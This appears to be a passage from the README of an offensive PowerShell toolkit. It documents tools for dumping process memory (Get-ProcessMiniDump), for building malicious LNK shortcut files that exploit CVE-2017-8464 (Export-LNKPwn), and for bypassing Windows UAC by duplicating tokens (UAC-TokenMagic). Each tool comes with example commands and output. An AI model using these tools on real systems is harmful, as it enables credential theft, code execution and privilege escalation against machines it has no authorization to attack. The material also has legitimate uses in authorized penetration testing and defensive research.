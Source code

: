 ```

C:\PS> $CallResult = Get-ProcessMiniDump -ProcID 2424 -Path C:\Users\asenath.waite\Desktop\tmp.ini -Verbose
VERBOSE: [?] Running as: asenath.waite
VERBOSE: [>] Process dump success!

C:\PS> $CallResult
True

# low priv user dumping elevated process
C:\PS> $CallResult = Get-ProcessMiniDump -ProcID 4 -Path C:\Users\asenath.waite\Desktop\tmp.ini -Verbose
VERBOSE: [?] Running as: asenath.waite
VERBOSE: [?] Administrator privileges required
VERBOSE: [!] Administrator privileges not held!

C:\PS> $CallResult
False
```

## pwnd

### Export-LNKPwn

Create LNK files to exploit CVE-2017-8464 aka LNK round 3 ;))!

Currently, it is recommended that you create the lnk locally and then move it to the target system because of .Net and PowerShell dependencies. Please refer to the function synopsis for further details.

```
C:\PS> Export-LNKPwn -LNKOutPath C:\Some\Local\Path.lnk -TargetCPLPath C:\Target\CPL\Path.cpl -Type SpecialFolderDataBlock
```

### UAC-TokenMagic

Based on James Forshaw's three part post on UAC, linked below, and possibly a technique used by the CIA!

Essentially we duplicate the token of an elevated process, lower it's mandatory integrity level, use it to create a new restricted token, impersonate it and use the Secondary Logon service to spawn a new process with High IL. Like playing hide-and-go-seek with tokens! ;))

This technique even bypasses the AlwaysNotify setting provided you supply it with a PID for an elevated process.

Targets:
7,8,8.1,10,10RS1,10RS2

```
C:\PS> UAC-TokenMagic -BinPath C:\Windows\System32\cmd.exe -Args "/c calc.exe" -ProcPID 1116

[*] Session is not elevated
[*] Successfully acquired regedit handle
[*] Opened process token
[*] Duplicated process token
[*] Initialized MedIL SID
[*] Lowered token mandatory IL
[*] Created restricted token
[*] Duplicated restricted token
[*] Successfully impersonated security context
[*] Magic..
```
